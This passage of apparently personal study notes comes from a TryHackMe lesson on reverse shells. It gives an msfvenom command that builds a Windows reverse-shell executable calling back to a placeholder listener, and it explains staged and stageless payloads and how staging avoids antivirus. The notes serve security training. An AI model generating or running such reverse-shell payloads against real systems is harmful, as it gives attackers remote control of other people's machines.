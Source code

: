In order to use this, we need to replace `"<IP>"` and `"<port>"` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell.

### Msfvenom
The one-stop-shop for all things payload related. Mostly used for generating Buffer Overflow playloads, it can also generate to various formats; `.exe, .aspx, .war, .py, etc.`

For example to generate a Windows x64 Reverse Shell in .exe format: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`.

Here we are using a payload and four options:
- `-f <format>`: Specifies the output format. In this case that is an executable (exe)
- `-o <file>`: The output location and filename for the generated payload.
- `LHOST=<IP>`: Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
- `LPORT=<port>`: The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

Before we go any further, there are another two concepts which must be introduced: `staged reverse shell payloads` and `stageless reverse shell payloads`.
- Staged payloads are sent in two parts.

    The first part is called the `stager`.
    This is a piece of code which is executed directly on the server itself.
    It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself.
    Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions.

- Stageless payloads are more common.

    `Entirely self-contained` in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove.

#### Payload Naming Conventions
When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:

- `<OS>/<arch>/<payload>`.

    For example: `linux/x86/shell_reverse_tcp`.
    
    The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.: `windows/shell_reverse_tcp`.

- Stageless: `shell_reverse_tcp`. Stageless payloads are denoted with underscores (`_`).
- Staged: `shell/reverse_tcp`. Staged payloads are denoted with another forward slash (`/`).

Aside from the msfconsole man page, the other important thing to note when working with msfvenom is: `msfvenom --list payloads`.

### Metasploit multi/handler
The go-to when using staged payloads.
